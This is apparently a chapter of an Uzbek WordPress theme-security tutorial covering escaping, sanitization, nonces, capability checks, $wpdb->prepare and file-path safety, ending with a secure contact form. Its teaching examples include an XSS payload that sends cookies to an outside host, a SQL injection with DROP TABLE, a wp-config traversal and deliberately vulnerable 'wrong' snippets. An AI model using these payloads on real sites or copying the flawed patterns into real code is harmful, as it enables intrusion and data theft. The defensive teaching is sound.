



# 27 — Xavfsizlik: escaping, sanitization, nonce

[⬅️ Oldingi: 26 — WooCommerce tema integratsiyasi](./26-woocommerce-tema.md) · [🏠 README](./README.md) · [Keyingi: 28 — i18n/l10n va accessibility ➡️](./28-i18n-accessibility.md)

> **Bu bobda:** tema xavfsizligi — bu "qo'shimcha funksiya" emas, **majburiy asos**. Yomon yozilgan bitta `echo $_GET['q']` qatori butun saytni XSS hujumiga ochib qo'yadi. Bu bobda uchta tayanch tushunchani o'rganamiz: **escaping** (chiqishda — `esc_html`, `esc_attr`, `esc_url`, `esc_js`, `esc_textarea`, `wp_kses_post`), **sanitization** (kirishda — `sanitize_text_field`, `sanitize_email`, `absint`, `sanitize_key`), va **nonce** (forma/AJAX CSRF himoyasi — `wp_nonce_field`/`wp_verify_nonce`). Shuningdek `$_GET`/`$_POST` ning to'g'ridan-to'g'ri xavfini, `$wpdb->prepare()` bilan SQL injection himoyasini, fayl yo'li xavfsizligini va `current_user_can()` ruxsat tekshiruvini ko'rib chiqamiz. Yakunda to'liq xavfsiz forma quramiz. Bobdagi har bir funksiya jonli WordPress 7.0 da haqiqatan sinab ko'rildi.

---

## Nega xavfsizlik tema muallifining ishi

Ko'pchilik o'ylaydi: "xavfsizlik — bu serverning yoki WordPress yadrosining ishi, men shunchaki tema yozaman". Bu xato. Tema — bu foydalanuvchi ma'lumotini **ekranga chiqaradigan** va ba'zan **kiritadigan** (formalar, Customizer, blok atributlari) qatlam. Aynan shu yerda ikki eng keng tarqalgan zaiflik tug'iladi:

- **XSS (Cross-Site Scripting)** — hujumchi sahifaga zararli JavaScript joylaydi. Masalan, izoh maydoniga `<script>document.location='http://o\'g\'ri.uz/?c='+document.cookie</script>` yozsa va tema buni escape qilmasdan chiqarsa, har bir mehmanning cookie'si o'g'irlanadi.
- **CSRF (Cross-Site Request Forgery)** — hujumchi foydalanuvchini aldab, uning nomidan amal bajartiradi (masalan, sozlamani o'zgartirish). Nonce aynan shundan himoya qiladi.
- **SQL injection** — to'g'ridan-to'g'ri so'rovga foydalanuvchi matnini qo'shganda baza buziladi yoki o'g'irlanadi.

Oddiy o'xshatish: tema — bu restoran oshxonasi. **Sanitization** — bozordan kelgan mahsulotni yuvib, chirigan joyini kesib tashlash (KIRISH). **Escaping** — taomni mehmonga uzatishdan oldin oxirgi tekshiruv: ichida shisha siniqlari yo'qmi (CHIQISH). **Nonce** — buyurtmani faqat haqiqiy ofitsiant bergani, ko'chadan kelgan begona emasligini tasdiqlovchi chek.

Bu uch tushuncha bir-birini almashtirmaydi — ular **birga** ishlaydi:

| Tushuncha | Qachon | Maqsad | Misol funksiya |
|-----------|--------|--------|----------------|
| **Sanitization** | Ma'lumot **kirganda** (saqlashdan oldin) | Keraksiz/zararli belgilarni tozalash | `sanitize_text_field()` |
| **Escaping** | Ma'lumot **chiqqanda** (ekranga) | Brauzer kodni bajarmasligi | `esc_html()` |
| **Nonce** | Forma/amal **yuborilganda** | So'rov haqiqiy ekanini tasdiqlash | `wp_verify_nonce()` |
| **`$wpdb->prepare`** | Baza so'rovi tuzilganda | SQL injection oldini olish | `$wpdb->prepare()` |

> **Eng muhim qoida:** *Hech qachon foydalanuvchidan kelgan ma'lumotga ishonmang.* `$_GET`, `$_POST`, `$_REQUEST`, izoh, post meta, blok atributi, hatto bazadagi eski ma'lumot ham "begona" hisoblanadi — chiqishda escape, kirishda sanitize qiling.

---

## Escaping: chiqishda himoya

Escaping (qochirish) — bu ma'lumotni ekranga chiqarishdan oldin, brauzer uni **kod** sifatida emas, balki **matn** sifatida ko'rsatishini kafolatlash. Masalan `<` belgisini `&lt;` ga aylantirsak, brauzer endi uni teg boshi deb o'ylamaydi.

WordPress'da har bir chiqarish **konteksti** uchun alohida escape funksiyasi bor. Noto'g'ri funksiyani tanlash — yarim himoya degani. Mana asosiy to'rttasi va ular qaysi joyga mos kelishi:



### `esc_html()` — HTML matn ichida

Eng ko'p ishlatiladigan funksiya. Matnni `<p>`, `<h1>`, `<li>` kabi teglar **orasiga** chiqarganda:

```php
<h1><?php echo esc_html( get_the_title() ); ?></h1>
<p><?php echo esc_html( $foydalanuvchi_izohi ); ?></p>
```

Jonli WP 7.0 da haqiqiy natija:

```
esc_html('<script>alert("x")</script>')
  -> &lt;script&gt;alert(&quot;x&quot;)&lt;/script&gt;
```

`<script>` endi ishlamaydigan matnga aylandi — XSS to'xtatildi.

### `esc_attr()` — atribut qiymatida

Qiymat HTML **atributi** ichida bo'lsa (`title="..."`, `value="..."`, `data-*="..."`, `class="..."`):

```php
<input type="text" value="<?php echo esc_attr( $qiymat ); ?>">
<div class="<?php echo esc_attr( $klass ); ?>" title="<?php echo esc_attr( $izoh ); ?>">
```

`esc_attr` qo'shtirnoqni (`"`) `&quot;` ga aylantiradi — aks holda hujumchi `value="x" onmouseover="bad()` deb atributdan "chiqib ketishi" mumkin. Jonli natija:

```
esc_attr('"qush" & <ona>')  ->  &quot;qush&quot; &amp; &lt;ona&gt;
```

> **`esc_html` va `esc_attr` farqi:** ikkalasi ham `<`, `>`, `&` ni escape qiladi, lekin `esc_attr` qo'shimcha qoidalarni (atribut konteksti) hisobga oladi. Atributda — har doim `esc_attr`, teglar orasida — `esc_html`. Aralashtirib yubormang.

### `esc_url()` — URL (href, src)

URL'lar uchun maxsus funksiya. U faqat xavfsiz protokollarga (`http`, `https`, `mailto`...) ruxsat beradi va `javascript:` kabi xavfli sxemalarni **butunlay o'chiradi**:

```php
<a href="<?php echo esc_url( get_permalink() ); ?>">O'qish</a>
" alt="">
```

Jonli WP 7.0 da eng muhim natija — XSS protokoli bloklandi:

```
esc_url('javascript:alert(1)')                  ->  (bo'sh string!)
esc_url('https://example.com/?q=a b&x="1"')     ->  https://example.com/?q=a%20b&#038;x=1
```

Bo'shliq `%20` ga, `&` esa `&#038;` ga aylandi, `javascript:` esa umuman chiqmadi.

> **`esc_url` vs `esc_url_raw`:** `esc_url()` ekranga chiqarish uchun (`&` -> `&#038;`). Bazaga saqlash yoki redirect uchun `esc_url_raw()` ishlating (HTML-entity'larsiz toza URL).

### `esc_textarea()` va `esc_js()`

- **`esc_textarea()`** — matn `<textarea>` ichiga chiqarilganda:

```php
<textarea><?php echo esc_textarea( $eski_matn ); ?></textarea>
```

- **`esc_js()`** — qiymatni inline JavaScript string ichiga qo'yganda (kamdan-kam kerak; odatda `wp_localize_script` afzal, 10-bob):

```php
<script>var nomi = '<?php echo esc_js( $ism ); ?>';</script>
```

Jonli natija — apostrof xavfsiz qochiriladi:

```
esc_js("salom 'dunyo' \"x\"")  ->  salom \'dunyo\' &quot;x&quot;
```

### `wp_kses_post()` va `wp_kses()` — ruxsat etilgan HTML

Ba'zan biz HTML ni **butunlay** olib tashlamoqchi emasmiz — masalan post mazmunida `<strong>`, `<a>`, `<em>` qolishi kerak, lekin `<script>` yo'q. Aynan shu uchun **`wp_kses_post()`** — u WordPress post mazmunida ruxsat etilgan teglar ro'yxatini saqlaydi, qolganini o'chiradi:

```php
<div class="izoh"><?php echo wp_kses_post( $boy_matn ); ?></div>
```

Jonli WP 7.0 da:

```
wp_kses_post('<p>Matn <strong>qalin</strong> <script>x</script></p>')
  -> <p>Matn <strong>qalin</strong> x</p>
```

`<strong>` qoldi, `<script>` esa o'chdi (ichidagi `x` matn bo'lib qoldi).

To'liq nazorat kerak bo'lsa — **`wp_kses()`** ga ruxsat etilgan teglar va atributlar massivini o'zingiz berasiz:

```php
$ruxsat = array(
	'a'  => array( 'href' => array(), 'title' => array() ),
	'em' => array(),
);
echo wp_kses( $matn, $ruxsat );
```

Jonli natija — faqat ruxsat etilgan narsa qoldi, `onclick` va `<b>` olib tashlandi:

```
wp_kses('<a href="x.html" onclick="bad()">link</a> <b>b</b> <em>e</em>', $ruxsat)
  -> <a href="x.html">link</a> b <em>e</em>
```

### Eng muhim qoida: "har dinamik chiqishni eng oxirgi nuqtada escape qil"

Bu — WordPress xavfsizligining **oltin qoidasi** (*late escaping*). Ma'noni quyidagicha tushuning:

1. **Har** dinamik (o'zgaruvchan) qiymatni chiqarishdan oldin escape qiling — sarlavha, URL, meta, atribut, `$_GET`, hatto o'zingiz to'g'ri deb o'ylagan baza ma'lumoti ham.
2. Escape'ni **eng oxirgi nuqtada**, ya'ni aynan `echo` payti qiling — o'zgaruvchini "ertaroq" escape qilib, keyin uni o'zgartirsangiz, xavfsizlik buziladi.

```php
<!-- ❌ NOTO'G'RI: o'zgaruvchini avval escape qilib, keyin foydalanish -->
<?php
$ism = esc_html( $foydalanuvchi_ismi );   // erta escape
$salom = "Salom, $ism!";                  // endi $ism allaqachon escaped — chalkash
echo $salom;
?>

<!-- ✅ TO'G'RI: chiqish nuqtasida escape -->
<?php echo esc_html( "Salom, $foydalanuvchi_ismi!" ); ?>
```

Statik (o'zgarmas) matnni escape qilish shart emas — `echo '<p>Salom</p>'` xavfsiz. Faqat **o'zgaruvchi** qiymatlar escape qilinadi.

---

## Escaping + i18n birga

28-bobda batafsil ko'radigan tarjima funksiyalari (`__()`, `_e()`) escaping bilan **birlashtirilgan** variantlarga ega. Bu juda qulay — tarjima qilib, ayni paytda escape ham qilasiz, bitta funksiya bilan:

| Oddiy | + esc_html | + esc_attr | Vazifa |
|-------|-----------|-----------|--------|
| `__( 'matn', 'kitob' )` | `esc_html__( 'matn', 'kitob' )` | `esc_attr__( 'matn', 'kitob' )` | qaytaradi (`echo` kerak) |
| `_e( 'matn', 'kitob' )` | `esc_html_e( 'matn', 'kitob' )` | `esc_attr_e( 'matn', 'kitob' )` | darhol chiqaradi |

```php
<!-- Sarlavha matni (HTML kontekst) -->
<h2><?php esc_html_e( 'So\'nggi yangiliklar', 'kitob' ); ?></h2>

<!-- Atribut kontekst (alt, placeholder) -->
<input placeholder="<?php esc_attr_e( 'Qidiruv...', 'kitob' ); ?>">

<!-- Qaytarish kerak bo'lganda (sprintf ichida) -->
<?php
printf(
	/* translators: %s: muallif ismi */
	esc_html__( 'Muallif: %s', 'kitob' ),
	esc_html( get_the_author() )
);
?>
```

Jonli natija:

```
esc_html__('Salom & xayr', 'kitob')  ->  Salom &amp; xayr
```

> **Qoida:** tema'da ko'rinadigan har bir matnli string ham tarjima qilinadigan (`__`), ham escape qilingan (`esc_html__`/`esc_attr__`) bo'lsin. `esc_html_e` = `echo esc_html__`. Bu ikki talab — i18n va xavfsizlik — bitta funksiyada birlashadi.

---

## Sanitization: kirishda himoya

Escaping CHIQISHda himoya qilsa, **sanitization** KIRISHda ishlaydi — foydalanuvchi yuborgan ma'lumotni **saqlashdan oldin** keraksiz/zararli belgilardan tozalaydi. Masalan, ism maydoniga HTML teg yozilsa, uni olib tashlaymiz; raqam kutilgan joyda matnni butun songa keltiramiz.



Har bir **ma'lumot turi** uchun mos funksiya:

### `sanitize_text_field()` — bir qatorli matn

Eng universal sanitizer. HTML teglarni o'chiradi, ortiqcha bo'shliqni siqadi, qator uzilishini olib tashlaydi:

```php
$ism = sanitize_text_field( wp_unslash( $_POST['ism'] ?? '' ) );
```

Jonli WP 7.0 da:

```
sanitize_text_field('  <b>salom</b>   dunyo  ')  ->  salom dunyo
```

`<b>` olib tashlandi, ikki tomondagi va o'rtadagi ortiqcha bo'shliqlar bitta bo'shliqqa siqildi.

### `sanitize_email()` — email manzil

```php
$email = sanitize_email( wp_unslash( $_POST['email'] ?? '' ) );
```

Jonli natija — noto'g'ri belgilar olib tashlandi:

```
sanitize_email(' user(name)@example.com ')  ->  username@example.com
```

> **Tekshirish (validation) ham unutmang:** `sanitize_email()` faqat tozalaydi. Email **haqiqatan to'g'ri** ekanini tekshirish uchun `is_email( $email )` ishlating — u `false` qaytarsa, foydalanuvchiga xato ko'rsating.

### `sanitize_textarea_field()` — ko'p qatorli matn

`sanitize_text_field` dan farqi: u qator uzilishlarini (`\n`) **saqlaydi** — `<textarea>` mazmuni uchun mos:

```php
$xabar = sanitize_textarea_field( wp_unslash( $_POST['xabar'] ?? '' ) );
```

Jonli natija — teglar o'chdi, lekin qatorlar qoldi:

```
sanitize_textarea_field("qator1\n\n\nqator2 <script>x</script>")
  ->  qator1\n\n\nqator2
```

### `absint()` — musbat butun son

ID, soni, sahifa raqami kabi musbat butun sonlar uchun. Salbiy belgini ham, ortiqcha matnni ham olib tashlaydi:

```php
$post_id = absint( $_GET['id'] ?? 0 );
$soni    = absint( $_POST['soni'] ?? 1 );
```

Jonli natija:

```
absint('-42abc')  ->  42
```

### `sanitize_key()` va boshqalar

- **`sanitize_key()`** — slug/kalit (faqat kichik harf, raqam, `_`, `-`):

```
sanitize_key('Mening_KALIT 123!@#')  ->  mening_kalit123
```

- **`sanitize_title()`** — URL slug (`Mening Postim` -> `mening-postim`);
- **`sanitize_file_name()`** — fayl nomi;
- **`sanitize_hex_color()`** — `#rrggbb` rang kodi (Customizer);
- **`wp_kses_post()`** — boy matn (post mazmuni kabi) — kirishda HAM ishlatiladi (ruxsat etilgan teglarni saqlab tozalaydi).

Sanitizer funksiyalarining qisqa jadvali:

| Kirish turi | Funksiya | Natija |
|-------------|----------|--------|
| Bir qatorli matn (ism, sarlavha) | `sanitize_text_field()` | Teglarsiz, siqilgan |
| Ko'p qatorli matn | `sanitize_textarea_field()` | Teglarsiz, qatorlar saqlanadi |
| Email | `sanitize_email()` | Toza email |
| Musbat butun son (ID) | `absint()` | Musbat int |
| Butun son (manfiy ham) | `intval()` | int |
| Slug/kalit | `sanitize_key()` | a-z0-9_- |
| URL (saqlash uchun) | `esc_url_raw()` | Toza URL |
| Boy HTML matn | `wp_kses_post()` | Ruxsat etilgan teglar |
| Rang kodi | `sanitize_hex_color()` | #rrggbb |

> **`wp_unslash()` haqida:** WordPress `$_POST`/`$_GET` ga avtomat "slashes" (`\`) qo'shadi (tarixiy sabab). Shuning uchun `$_POST` ni sanitize qilishdan **oldin** `wp_unslash()` bilan bu qo'shimcha slash'larni olib tashlash kerak: `sanitize_text_field( wp_unslash( $_POST['x'] ) )`. Bu standart, doim shunday qiling.

---

## `$_GET`/`$_POST`/`$_REQUEST` ning to'g'ridan-to'g'ri xavfi

Eng ko'p uchraydigan zaiflik — superglobal massivlardan ma'lumotni to'g'ridan-to'g'ri ishlatish. Bu ma'lumot **butunlay** foydalanuvchi (yoki hujumchi) nazoratida:

```php
<!-- ❌ JIDDIY XAVF: XSS hujumiga ochiq -->
<?php echo $_GET['q']; ?>
<!-- hujumchi ?q=<script>...</script> deb yuborsa, kod bajariladi -->

<!-- ❌ XAVF: sanitize ham, escape ham yo'q -->
<input value="<?php echo $_POST['ism']; ?>">

<!-- ✅ TO'G'RI: kirishda unslash+sanitize, chiqishda escape -->
<?php
$qidiruv = isset( $_GET['q'] )
	? sanitize_text_field( wp_unslash( $_GET['q'] ) )
	: '';
?>
<p><?php echo esc_html( $qidiruv ); ?></p>
<input value="<?php echo esc_attr( $qidiruv ); ?>">
```

Qoidalar:

1. **`isset()` bilan tekshiring** — yo'q kalitga murojaat `Warning` beradi.
2. **`wp_unslash()` + `sanitize_*`** — kirishda.
3. **`esc_*`** — chiqishda (kontekstga qarab).
4. **Ma'lumotni o'zgartiruvchi amal** (saqlash, o'chirish) bo'lsa — **nonce** ham qo'shing (pastda).

> **Eslatma:** WordPress'ning ko'p ichki holatlari uchun superglobal'ga tegmaslik mumkin — qidiruv uchun `get_search_query()`, sahifa uchun `get_query_var()` kabi xavfsiz API funksiyalari bor. Imkon bo'lsa, ularni afzal ko'ring.

---

## Nonce: CSRF himoyasi

**Nonce** (*number used once* — "bir marta ishlatiladigan raqam") — bu forma yoki amal **haqiqatan sizning saytingizdan** kelganini tasdiqlovchi maxfiy token. U **CSRF** hujumidan himoya qiladi: hujumchi boshqa saytda yashirin forma yasab, foydalanuvchini uning nomidan amal bajarishga majburlay olmaydi, chunki uning qo'lida to'g'ri nonce yo'q.



WordPress nonce odatda 24 soatlik amal qiladi va `action` (amal nomi) ga bog'langan bo'ladi.

### 1-qadam: formaga nonce qo'shish

`wp_nonce_field( $action, $name )` — formaga yashirin `<input>` qo'shadi:

```php
<form method="post" action="">
	<?php wp_nonce_field( 'kitob_aloqa_yuborish', 'kitob_aloqa_nonce' ); ?>
	<input type="text" name="ism">
	<button type="submit">Yuborish</button>
</form>
```

Bu quyidagicha yashirin maydon chiqaradi (token qiymati har safar boshqacha):

```html
<input type="hidden" name="kitob_aloqa_nonce" value="b7061092ca">
<input type="hidden" name="_wp_http_referer" value="/aloqa/">
```

AJAX yoki URL uchun tokenning **o'zini** olish kerak bo'lsa — `wp_create_nonce( $action )`:

```php
$token = wp_create_nonce( 'kitob_amal' );
// AJAX yoki data-* atributda uzatiladi
```

### 2-qadam: serverda tekshirish

Forma yuborilganda, **amalni bajarishdan oldin** nonce'ni tekshiring. Ikki asosiy yo'l:

**`wp_verify_nonce( $token, $action )`** — qo'lda tekshirish (`1`/`2` qaytaradi to'g'ri bo'lsa, `false` noto'g'ri):

```php
$nonce = $_POST['kitob_aloqa_nonce'] ?? '';
if ( ! wp_verify_nonce( $nonce, 'kitob_aloqa_yuborish' ) ) {
	wp_die( esc_html__( 'Xavfsizlik tekshiruvi muvaffaqiyatsiz.', 'kitob' ) );
}
// ... amalni bajarish
```

**`check_admin_referer( $action, $name )`** — yuqoridagining qulay o'rami: nonce noto'g'ri bo'lsa, **o'zi** `wp_die()` chaqiradi:

```php
check_admin_referer( 'kitob_aloqa_yuborish', 'kitob_aloqa_nonce' );
// shu yergacha yetib kelsa, nonce to'g'ri
```

AJAX so'rovlari uchun esa **`check_ajax_referer( $action, $query_arg )`** ishlatiladi.

Jonli WordPress 7.0 da nonce mexanizmi haqiqatan sinab ko'rildi:

```
wp_create_nonce('kitob_amal')                       -> b7061092ca
wp_verify_nonce('b7061092ca', 'kitob_amal')         -> int(1)     (to'g'ri)
wp_verify_nonce('b7061092ca', 'boshqa_amal')        -> bool(false) (noto'g'ri action)
wp_verify_nonce('qalbaki12', 'kitob_amal')          -> bool(false) (soxta token)
```

Diqqat: **action mos kelmasa** ham, **token soxta** bo'lsa ham `false` qaytadi — aynan shu CSRF dan himoya qiladi.

> **`wp_verify_nonce` qaytaradigan qiymat:** `1` — token 0-12 soat ichida; `2` — 12-24 soat ichida; `false` — yaroqsiz/eskirgan. Mantiqda har doim `! wp_verify_nonce(...)` (ya'ni `false` ni) tekshiring — `=== 1` bilan tekshirmang, chunki `2` ham yaroqli.

> **MUHIM:** nonce **hujjat almashtirgich emas, balki niyat tasdig'i**. U "bu so'rovni shu foydalanuvchi ataylab yubordimi?" degan savolga javob beradi. Ruxsat ("bu foydalanuvchining huquqi bormi?") ni esa **alohida** `current_user_can()` bilan tekshirish kerak — nonce uni almashtirmaydi.

---

## `current_user_can()` — ruxsat (capability) tekshiruvi

Nonce — so'rov haqiqiyligini tasdiqlaydi, lekin foydalanuvchining **huquqi** bor-yo'qligini emas. Masalan, oddiy obunachi postni o'chira olmasligi kerak. Buni `current_user_can( $capability )` tekshiradi:

```php
if ( ! current_user_can( 'edit_posts' ) ) {
	wp_die( esc_html__( 'Sizda bu amalga ruxsat yo\'q.', 'kitob' ) );
}
```

Jonli WP 7.0 da administrator uchun:

```
current_user_can('edit_posts')  ->  bool(true)
```

To'liq xavfsiz amal **uch tekshiruvni birga** talab qiladi:

```php
// 1. Ruxsat (kim qila oladi?)
if ( ! current_user_can( 'manage_options' ) ) {
	wp_die( esc_html__( 'Ruxsat yo\'q.', 'kitob' ) );
}
// 2. Nonce (so'rov haqiqiymi?)
check_admin_referer( 'kitob_sozlama', 'kitob_sozlama_nonce' );
// 3. Sanitize (ma'lumot tozami?)
$qiymat = sanitize_text_field( wp_unslash( $_POST['qiymat'] ?? '' ) );
update_option( 'kitob_sozlama', $qiymat );
```

> **Keng tarqalgan capability'lar:** `read` (o'qish), `edit_posts` (post tahrir), `publish_posts` (e'lon), `manage_options` (sozlama — faqat admin), `edit_theme_options` (Customizer/menyu). Faqat ID berib tekshirish (`current_user_can('edit_post', $post_id)`) ham mumkin.

---

## `$wpdb->prepare()` — SQL injection himoyasi

Tema odatda yuqori darajadagi API (`WP_Query`, `get_posts`) bilan ishlaydi — ular xavfsiz. Lekin ba'zan to'g'ridan-to'g'ri baza so'rovi kerak bo'ladi (`$wpdb`). Bunda **hech qachon** foydalanuvchi ma'lumotini so'rov stringiga to'g'ridan-to'g'ri qo'shmang — bu SQL injection:

```php
<!-- ❌ JIDDIY XAVF: SQL injection -->
<?php
global $wpdb;
$id = $_GET['id'];
$natija = $wpdb->get_results( "SELECT * FROM {$wpdb->posts} WHERE ID = $id" );
// hujumchi ?id=1 OR 1=1; DROP TABLE ... deb yuborsa baza buziladi
```

Yechim — **`$wpdb->prepare()`**: u `%s` (string), `%d` (butun son), `%f` (kasr son) placeholder'larini xavfsiz to'ldiradi:

```php
<!-- ✅ TO'G'RI: prepare bilan -->
<?php
global $wpdb;
$natija = $wpdb->get_results(
	$wpdb->prepare(
		"SELECT * FROM {$wpdb->posts} WHERE post_status = %s AND ID = %d",
		'publish',
		absint( $_GET['id'] ?? 0 )
	)
);
```

Jonli WP 7.0 da `prepare` injection urinishini qanday zararsizlantirganini ko'ramiz:

```
$wpdb->prepare(
  "SELECT * FROM {$wpdb->posts} WHERE post_status = %s AND ID = %d",
  "publish'; DROP TABLE x; --",   // <- zararli string
  "5x"                            // <- raqam o'rniga matn
)
-> SELECT * FROM wp_posts WHERE post_status = 'publish\'; DROP TABLE x; --' AND ID = 5
```

`%s` zararli stringni qo'shtirnoq ichiga olib, apostrofni `\'` qilib qochirdi (DROP TABLE endi shunchaki matn), `%d` esa `"5x"` ni `5` butun soniga aylantirdi. Injection mumkin emas.

> **Jadval nomi placeholder emas:** `{$wpdb->posts}` kabi jadval nomlari `prepare` bilan to'ldirilmaydi — ular WordPress'ning o'z xususiyatlari, foydalanuvchi ma'lumoti emas. Faqat **qiymatlar** (`%s`/`%d`/`%f`) placeholder bo'ladi.

---

## Fayl yo'li xavfsizligi

Tema ba'zan `include`/`require` bilan fayl ulaydi yoki yo'l quradi. Bu yerda ikki xavf bor: **directory traversal** (`../../`) va to'g'ridan-to'g'ri fayl chaqirish.

```php
<!-- ❌ XAVF: foydalanuvchi yo'lni boshqaradi -->
<?php include $_GET['shablon'] . '.php'; ?>
<!-- ?shablon=../../../wp-config kabi hujum -->

<!-- ✅ TO'G'RI: oq ro'yxat (whitelist) + tema papkasiga bog'lash -->
<?php
$ruxsat = array( 'banner', 'sidebar', 'cta' );
$qism   = sanitize_key( $_GET['shablon'] ?? '' );
if ( in_array( $qism, $ruxsat, true ) ) {
	get_template_part( 'parts/' . $qism );
}
```

Asosiy qoidalar:

- **Tema yo'lini har doim `get_template_directory()` / `get_stylesheet_directory()`** bilan quring — qo'lda string qo'shmang.
- **Foydalanuvchi tanlovini oq ro'yxat** bilan cheklang — ixtiyoriy yo'lga ruxsat bermang.
- **`get_template_part()`** ni afzal ko'ring (4 va 8-bob) — u tema ichida xavfsiz qidiradi.
- **PHP fayl boshida** to'g'ridan-to'g'ri chaqirishni bloklash uchun: `defined( 'ABSPATH' ) || exit;` (plagin/include fayllarida standart).

```php
<?php
// Har bir tema PHP faylining boshida xavfsizlik qatori
defined( 'ABSPATH' ) || exit;
```

---

## Hammasi birga: to'liq xavfsiz forma

Endi barcha tushunchani birlashtirib, **aloqa formasi** quramiz — nonce, sanitize, escape, capability va `wp_die` to'g'ri ishlatilgan. Bu kod jonli WP 7.0 da `php -l` bilan tekshirilgan.

```php
<?php
/**
 * Aloqa formasi shabloni (template-parts/aloqa-forma.php).
 * Xavfsizlik: nonce + sanitize + escape + validation.
 */
defined( 'ABSPATH' ) || exit;

$xabar      = '';
$xabar_turi = '';

// --- Forma yuborilganmi? ---
if ( 'POST' === $_SERVER['REQUEST_METHOD'] && isset( $_POST['kitob_aloqa_nonce'] ) ) {

	// 1. NONCE — so'rov haqiqiyligini tasdiqlash (CSRF himoya).
	if ( ! wp_verify_nonce(
		sanitize_text_field( wp_unslash( $_POST['kitob_aloqa_nonce'] ) ),
		'kitob_aloqa_yuborish'
	) ) {
		wp_die( esc_html__( 'Xavfsizlik tekshiruvi muvaffaqiyatsiz.', 'kitob' ) );
	}

	// 2. SANITIZE — kirishni tozalash.
	$ism   = sanitize_text_field( wp_unslash( $_POST['ism'] ?? '' ) );
	$email = sanitize_email( wp_unslash( $_POST['email'] ?? '' ) );
	$matn  = sanitize_textarea_field( wp_unslash( $_POST['xabar'] ?? '' ) );

	// 3. VALIDATE — mantiqiy to'g'rilik.
	if ( '' === $ism || '' === $matn ) {
		$xabar      = esc_html__( 'Ism va xabar majburiy.', 'kitob' );
		$xabar_turi = 'xato';
	} elseif ( ! is_email( $email ) ) {
		$xabar      = esc_html__( 'Email manzil noto\'g\'ri.', 'kitob' );
		$xabar_turi = 'xato';
	} else {
		// ... bu yerda xabarni saqlash/yuborish (wp_mail) ...
		$xabar      = esc_html__( 'Rahmat! Xabaringiz yuborildi.', 'kitob' );
		$xabar_turi = 'muvaffaqiyat';
	}
}
?>

<?php if ( '' !== $xabar ) : ?>
	<p class="aloqa-xabar aloqa-xabar--<?php echo esc_attr( $xabar_turi ); ?>">
		<?php echo esc_html( $xabar ); ?>
	</p>
<?php endif; ?>

<form method="post" action="">
	<?php
	// 4. NONCE maydonini chiqarish.
	wp_nonce_field( 'kitob_aloqa_yuborish', 'kitob_aloqa_nonce' );
	?>

	<label>
		<?php esc_html_e( 'Ismingiz', 'kitob' ); ?>
		<input type="text" name="ism"
			value="<?php echo esc_attr( $_POST['ism'] ?? '' ); ?>">
	</label>

	<label>
		<?php esc_html_e( 'Email', 'kitob' ); ?>
		<input type="email" name="email"
			value="<?php echo esc_attr( $_POST['email'] ?? '' ); ?>">
	</label>

	<label>
		<?php esc_html_e( 'Xabar', 'kitob' ); ?>
		<textarea name="xabar"><?php echo esc_textarea( $_POST['xabar'] ?? '' ); ?></textarea>
	</label>

	<button type="submit"><?php esc_html_e( 'Yuborish', 'kitob' ); ?></button>
</form>
```

E'tibor bering, har bir xavfsizlik tamoyili o'z o'rnida:

- **Nonce** (`wp_nonce_field` + `wp_verify_nonce`) — CSRF himoya;
- **Sanitize** (`sanitize_text_field`, `sanitize_email`, `sanitize_textarea_field` + `wp_unslash`) — kirish;
- **Validate** (`is_email`, bo'sh tekshiruvi) — mantiqiy to'g'rilik;
- **Escape** (`esc_html`, `esc_attr`, `esc_textarea`, `esc_html_e`) — har bir chiqish, shu jumladan formani qayta to'ldirishda (`$_POST['ism']` ni `esc_attr` bilan);
- **`wp_die`** — xavfsizlik buzilganda darhol to'xtatish.

